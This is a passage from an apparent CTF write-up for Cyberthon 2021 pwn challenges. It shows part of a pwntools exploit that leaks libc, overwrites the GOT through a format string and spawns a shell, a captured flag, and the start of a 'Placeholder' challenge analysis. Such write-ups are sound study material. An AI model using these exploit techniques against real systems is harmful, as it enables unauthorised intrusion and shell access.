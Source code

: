 ```python
libc_start=u64(r.recvuntil("...")[:-10].ljust(8,b'\x00'))
print(hex(libc_start))
libc_base=libc_start-0x21b10
system=libc_base+0x4f550
str_bin_sh=libc_base+0x1b3e1a # Bad shell. BAD SHELL >:(
payload=fmtstr_payload(inp_offset, {binary.got["printf"]:system})
r.sendline(payload)
r.sendline("/bin/sh\x00")
r.interactive()
```

![](/assets/Images/Cyberthon-2021/apcdb_flag.png)

### Flag!
`Cyberthon{f4k3_c0nt4ct5_f41lur3}`

## Placeholder
```
Hohoho seems like one of the APOCALYPSE agents messed up big time. 
Seems this agent went to deploy his/her code for testing and completely forgot to bring down the network service. 
This careless agent even forgot to private the repository containing the test code, 
so we've managed to obtain the source for the entire project, dockerfile and all. 
We've provided you with everything that we've found, so can you get the flag from their server?
```

(Scared off by Dockerfile until `niktay` said "guys easiest pwn chall")

### Reconnaissance
We are greeted with the binary that does... nothing???
![](/assets/Images/Cyberthon-2021/placeholder_main.png)

N-no seriously, it just takes in our input and does nothing!
Not even a GOT overwrite!
![](/assets/Images/Cyberthon-2021/placeholder_checksec.png)

However, this Dockerfile changed everything for me...
![](/assets/Images/Cyberthon-2021/placeholder_env.png)

### Vulnerability Analysis
We have, basically:
1. A **Format String Exploit**
2. ...nothing else.

However, we know that **environment variables** are stored on the stack, which means our `flag` is **ALSO** on the stack!

Verdict: **Stack Smashing** (this is a 10pt picoCTF challenge, my god)

### The Exploit
So I said we gonna smash the stack.
